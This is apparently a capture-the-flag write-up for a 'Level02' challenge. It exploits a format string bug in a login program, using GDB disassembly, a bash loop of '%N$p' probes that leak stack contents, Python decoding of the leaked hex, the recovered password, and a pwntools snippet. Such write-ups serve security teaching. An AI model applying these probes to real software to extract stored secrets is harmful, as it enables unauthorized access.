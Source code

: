 
# Level02 - Exploiting Format String Vulnerability to Retrieve Hidden Password

## Objective

The goal of this challenge is to exploit a format string vulnerability in the program to retrieve the hidden password and gain access.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: coucou
--[ Password: coucou
*****************************************
coucou does not have access!
```

The program prompts for a username and password, then denies access with a message.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The disassembly shows the presence of `fopen` and `fread` functions used to read a password file. More importantly, there's a critical format string vulnerability in the `printf` function:

```assembly
0x0000000000400a96 <+642>: lea    rax,[rbp-0x70]
0x0000000000400a9a <+646>: mov    rdi,rax
0x0000000000400a9d <+649>: mov    eax,0x0
0x0000000000400aa2 <+654>: call   0x4006c0 <printf@plt>
```

The `printf` call directly uses a variable without proper formatting, leading to a format string vulnerability.

## Step 3: Exploiting the Format String

Using the vulnerability, we can print the stack content. The following command tests different stack positions to reveal interesting information:

```bash
$ for(( i = 1; i < 42; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done
```

Notable stack outputs appear at positions 22 to 26, showing hexadecimal strings that resemble encoded data:

```
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

## Step 4: Converting Hex Strings to Characters

Convert these hexadecimal strings into readable ASCII text using Python:

```bash
$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
```

Combine all the decoded strings to form the password:

`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

## Step 5: Faster Extraction with Pwntools

For efficiency, the password can be extracted using the Pwntools library in Python:

```python
from pwn import *
print p64(0x756e505234376848) + p64(0x45414a3561733951) + p64(0x377a7143574e6758) + p64(0x354a35686e475873) + p64(0x48336750664b394d)
```

## Summary

- The program has a format string vulnerability that allows printing stack data.
- Interesting data found in the stack positions can be decoded to retrieve a hidden password.
- The retrieved password is used to gain access, bypassing the login checks.

This approach demonstrates how to exploit format string vulnerabilities to extract sensitive information from a running program.